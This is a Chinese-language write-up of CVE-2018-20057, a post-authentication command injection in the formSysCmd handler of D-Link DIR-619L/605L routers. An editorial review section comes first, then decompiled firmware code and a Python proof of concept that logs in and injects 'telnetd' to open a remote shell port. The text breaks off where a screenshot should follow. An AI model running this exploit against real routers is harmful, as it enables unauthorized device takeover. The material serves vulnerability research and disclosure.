


# （CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DIR619L/DIR605L RevB
- 本文讨论：CVE-2018-20057 formSysCmd sysCmd
- 版本、权限与配置前提：&lt;2.06B1/&lt;2.12B1，需真实管理员凭据；仿真hook apmib_get故空凭据
- 资料类型：认证后诊断命令执行源码；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 称后门需区分厂商意图，源码只证明认证后任意命令功能未限界
- 代码登录/执行为独立requests不保持Cookie，真实固件是否IP绑定会话未说明
- 作者明确仿真缺pty仅端口开启，不能把图当交互shell成功
- Python2依赖与补丁来源缺失

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 真实设备会话和权限设计、修复及版本范围待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formSysCmd函数存在后门，导致攻击者在身份认证后可以通过访问

```
http://[ip]//goform/formSysCmd并指定sysCmd参数，从而实现远程命令注入。
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

本漏洞的路由器运行环境与CVE-2018-20056相同。

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

查看ghidra中的反编译代码，在formSysCmd中，首先获取sysCmd参数，然后通过snprintf写入栈中变量，直接调用system函数执行该参数内容。

```
void formSysCmd(undefined4 uParm1)
{
  undefined4 uVar1;
  char *pcVar2;
  char acStack120 [104];

  uVar1 = websGetVar(uParm1,"submit-url",&DAT_004ac874);
  //获取post参数sysCmd，该参数可由用户控制
  pcVar2 = (char *)websGetVar(uParm1,"sysCmd",&DAT_004ac874);
  if (*pcVar2 != 0) {
    //将sysCmd写入栈中，并调用system执行
    snprintf(acStack120,100,"%s 2>&1 > %s",pcVar2,"/tmp/syscmd.log");
    system(acStack120);
  }
  websRedirect(uParm1,uVar1);
  return;
}
```

### 漏洞复现

该漏洞是在身份认证成功之后才可实现命令注入，需要先登录输入用户名和口令。由于是在qemu中模拟固件，通过apmib_get读取路由器本地配置无法实现，所以在劫持了apmib_get函数之后，login输入的用户名和密码暂时填为空。在真机上操作时，换成真实的用户名和密码即可。

```
import requests
import sys
import struct
import base64
from pwn import *
context(arch='mips',endian='big',log_level='debug')

ip='192.168.84.129'
port=101
def login(user,password):
    postData = {
    'login_name':'',
    'curTime':'1234',
    'FILECODE':'',
    'VER_CODE':'',
    'VERIFICATION_CODE':'',
    'login_n':user,
    'login_pass':base64.b64encode(password),
    }
    response = requests.post('http://'+ip+'/goform/formLogin',data=postData)
    #print response.url
def syscmd(cmd):
    postData = {
    'sysCmd':cmd,
    'submit-url':'1234',
    }
    response = requests.post('http://'+ip+'/goform/formSysCmd',data=postData)
    #print response.url
def inter():
    p=remote(ip,port)
    p.interactive()
if __name__ == "__main__":
    login('','')#这里要写实际的用户名和密码，例如admin 12345
    syscmd('telnetd -p '+str(port))
    inter()
```

另由于qemu模拟时，/dev下没有pty设备，导致telnet连接不能实现，但是端口是已经打开了：



